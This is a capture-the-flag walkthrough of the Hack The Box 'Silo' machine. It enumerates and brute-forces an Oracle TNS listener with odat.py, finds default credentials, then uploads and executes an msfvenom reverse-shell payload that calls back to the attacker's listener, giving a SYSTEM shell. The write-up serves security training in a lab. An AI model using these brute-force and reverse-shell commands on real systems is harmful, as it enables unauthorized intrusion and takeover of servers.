

# Silo

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Medium |
| **Topics** | Oracle TNS listener 11.2.0.2.0, Oracle Database Attacking Tool, odat.py |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

All Ports

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.82 -oN AllPorts
```

```bash
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
1521/tcp  open  oracle       syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49160/tcp open  unknown      syn-ack ttl 127
49161/tcp open  unknown      syn-ack ttl 127
49162/tcp open  unknown      syn-ack ttl 127
```

Full Scan

```bash
nmap -p 80,135,139,445,1521,5985,47001 -sCV -n 10.10.10.82 -oN FullScan
```

```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2022-11-09T03:53:00
|_  start_date: 2022-11-09T03:45:02
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
```

Whatweb Scan

```bash
whatweb -a 3 http://10.10.10.82

http://10.10.10.82 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/8.5], IP[10.10.10.82], Microsoft-IIS[8.5][Under Construction], Title[IIS Windows Server], X-Powered-By[ASP.NET]

```

Crackmapexec:

```bash
>crackmapexec smb 10.10.10.82    
#Result                                                         
SMB         10.10.10.82     445    SILO     [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)

##################################################################

>crackmapexec winrm 10.10.10.82

#Result
SMB         10.10.10.82     5985   NONE     [*] None (name:10.10.10.82) (domain:None)
HTTP        10.10.10.82     5985   NONE     [*] http://10.10.10.82:5985/wsman
```

No relevant results. 

SMB with Null Session:

```bash
smbclient -L 10.10.10.82 -N
```

No relevant results. 

Wfuzz Scan

```bash
wfuzz -c -t 200 --hc=404 -f wfuzz-scan-80,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.82/FUZZ
```

No relevant results. 

### Interesting Ports

```bash
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)

```

When enumerating Oracle the first step is to talk to the TNS-Listener that usually resides on the default port (1521/TCP, -you may also get secondary listeners on 1522–1529-).

Reference: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

# Initial Access

Checking over Internet any tool related to ‘*Oracle TNS*’ enumeration we will find the following repository.

https://github.com/quentinhardy/odat

See the installation and use on this page:

`ODAT - Oracle Database Attacking Tool` 

Once we have installed the tool, proceed to verify if is working properly

```python
python3 odat.py --help
```

### Brute Force SID Enumeration

For this part we will start enumerating the SIDs valid for the Oracle Database using the following command:

```python
python3 odat.py sidguesser -s 10.10.10.82
```

> The mode `sidguesser` is used to enumerate/bruteforce the usernames, followed by the argument `-s`  to pass the target IP. Note that we don’t need to pass a wordlist (for now).
> 

After some minutes we will see the SID `XE` as a valid.



### Brute Force Credentials

Once we have found a valid SID, then we can move to enumerate/bruteforce the credentials for that SID. 

```python
python3 odat.py passwordguesser -s 10.10.10.82 -d XE
```

> For this part we use the mode `passwordguesser` followed by the argument `-s` to indicate the target and noticed that this time we add the argument `-d` to indicate the SID previously found.
> 

After some minutes we will found valid credentials: `scott/tiger`

```python
[+] Valid credentials found: scott/tiger. Continue...

[+] Accounts found on 10.10.10.82:1521/sid:XE: scott/tiger
```

Validate the credentials using crackmapexec

```python
crackmapexec smb 10.10.10.82 -u 'scott' -p 'tiger'
```

However, it looks like the credentials are not valid at least for SMB


If we continuing checking the ODAT options, we will see an option to upload/download files: 

```python
python3 odat.py --help
...
...
...
utlfile           to download/upload/delete files
```

For this task we use the module `utlfile` using the following arguments

```python
--getFile
--putFile
--removeFile
```

### Download Files

Proceed to check if we can download files, for this task we required to use the SID and the credentials previosly found.  

Syntax:

```python
python3 odat.py utlfile -s TARGET-IP -d SID -U 'USER' -P 'PASS' --getFile REMOTE-PATH REMOTE-FILE LOCAL-FILE
```

Our command should look like this:

```python
python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --getFile /Windows/System32/Drivers/etc/ hosts hosts
```

> Noticed that we need to provide individually, the REMOTE PATH without putting the letter of unit “C”, the name of the file we want to download (REMOTE-FILE), and the name of how this file will be saved in our local machine (LOCAL-FILE).
> 

After executing the command we will see that we are lacking of priveleges:

```python
[1] (10.10.10.82:1521): Read the hosts file stored in /Windows/System32/Drivers/etc/ on the 10.10.10.82 server
[-] Impossible to read the ['/Windows/System32/Drivers/etc/', 'hosts', 'hosts-download'] file: `ORA-01031: insufficient privileges`

```

This can be fixed by adding the argument `--sysdba` so the task will be executed as System DBA which has more privileges:

```python
python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --getFile /Windows/System32/Drivers/etc/ hosts hosts --sysdba
```

Success!!, we should see the file `hosts` in our machine


## Upload Files

As we verified, we have the posibility of download files, this also means that we can upload files, specifically, we can upload a malicious binary file and later execute it to get a reverse shell. 

First we will create our binary file using msfvenom containing reverse shell code:

```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 -f exe -o shell.exe
```

> Notice that we are using a x64 payload as [we saw earlier](Silo%2021077c72fe9f45e79f611bb09f0b633d.md) the target system is based x64.
> 

Then, to upload the file we will use again the module `utlfile` using the following arguments

```python
--putFile
```

Syntax: 

```python
python3 odat.py utlfile -s TARGET-IP -d SID -U 'USER' -P 'PASS' --putFile REMOTE-PATH REMOTE-FILE LOCAL-FILE
```

Our command should look like this:

```python
python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --putFile /Windows/Temp shell.exe /home/kali/HTB/Silo/exploit/shell.exe
```

> Noticed that we need to provide again, the REMOTE PATH where we want to upload the file without putting the letter of unit “C”, the name of how the file will be saved on the remote server (REMOTE-FILE), and finally the path/file of the file in our local machine (LOCAL-FILE).
> 

> Note: If we received an error for insufficient privileges, again just add the argument `--sysdba` at the end of the command.
> 

If everything went as planned, we will we be able to see the result of the successful upload:

```python
[1] (10.10.10.82:1521): Put the /home/kali/HTB/Silo/exploit/shell.exe local file in the /Windows/Temp folder like shell.exe on the 10.10.10.82 server

[+] The /home/kali/HTB/Silo/exploit/shell.exe file was created on the /Windows/Temp directory on the 10.10.10.82 server like the shell.exe file
```

Done, now we just need to execute the file in order to get a reverse shell. 

## Execute Remote Files

Once we have uploaded the malicious file, then,  we will use the module `externaltable` using the following argument:

```python
--exec REMOTE-PATH REMOTE-FILE
```

Syntax:

```python
python3 odat.py externaltable -s TARGET-IP -d SID -U 'USER' -P 'PASS' --exec REMOTE-PATH REMOTE-FILE
```

Our command should look like this:

```python
python3 odat.py externaltable -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --exec /Windows/Temp/ shell.exe --sysdba
```

> Noticed that we need to provide only the REMOTE PATH without putting the letter of unit “C”, and the name of the file we want to execute.
> 

> Note: We should add the argument `--sysdba` to execute the task with elevated privileges.
> 

 Listener on our machine

```python
rlwrap nc -nvlp 443
```

Success, we should get a reverse shell as `NT AUTHORITY\SYSTEM`


# Privilege Escalation

Non-required - we received directly access as `NT AUTHORITY\SYSTEM`

[Owned Silo from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/131)